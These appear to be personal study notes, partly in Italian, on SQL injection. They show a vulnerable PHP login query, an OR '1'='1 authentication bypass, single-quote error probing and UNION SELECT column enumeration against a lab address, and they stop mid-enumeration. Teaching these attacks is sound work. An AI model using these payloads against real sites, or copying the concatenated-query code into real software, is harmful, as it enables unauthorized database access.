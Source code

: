 ```PHP
//connect to db
$conn = mysql_connect("localhost","username","password");
//build SQL statement
$query = "SELECT id, name FROM users WHERE name = ’alberto’ AND password = ’secret' ";
…
//run query
$result = mysql_query ($query);
//ensure a user was returned
$numrows = mysql_num_rows($result);
if($numrows > 0) {
	header("Location:admin.php");
} else {
	die('Invalid username or password.');
}
```
![[Pasted image 20240513150543.png|center|250]]

```PHP
//connect to db
$conn = mysql_connect("localhost","username","password");
//build SQL statement
$query = "SELECT id, name FROM users WHERE name = ’admin’ AND password = ’xx’ OR ‘1’=‘1' ";
…
//run query
$result = mysql_query ($query);
//ensure a user was returned
$numrows = mysql_num_rows($result);
if($numrows > 0) {
	header("Location:admin.php");
} else {
	die('Invalid username or password.');
}
```
![[Pasted image 20240513150629.png|center|250]]
## Detecting SQL Injections
	`http://10.0.0.X/cat.php?id=1'`
	
Ciò sfuggirà all'istruzione SQL preparata
-  interrompe la sintassi e provoca un errore SQL
Questo ci dice che sta eseguendo SQL
-  …e presenta una vulnerabilità SQLi
>[!quote]- <<Hai un errore nella sintassi SQL, controlla nel manuale che corrisponde alla versione del tuo server MySQL la sintassi corretta da utilizzare vicino a ''' alla riga 1>>

Quindi, è SQLi vulnerabile
-  ma non sappiamo come sia la query SQL dietro nel codice c`at.php`
-  scopriamo quante colonne richiede
## Exploit SQL Injection
**FUN FACT:**
Tutte le query in un'istruzione SQL contenente l'operatore `UNION` devono avere un numero uguale di espressioni negli elenchi di destinazione,
cioè `UN'UNIONE B`.
- deve avere lo stesso numero di colonne
Possiamo usarlo per enumerare le colonne di una dichiarazione?
`http://10.0.0.X/cat.php?id=1 UNION SELECT ALL 1--`
The used SELECT statements have a different number of columns
`http:// 10.0.0.X /cat.php?id=1 UNION SELECT ALL 1,2--`
The used SELECT statements have a different number of columns
`http:// 10.0.0.X /cat.php?id=1 UNION SELECT ALL 1,2,3--`
The used SELECT statements have a different number of columns
"The UNION SELECT ALL ...." part is a common SQLi trick
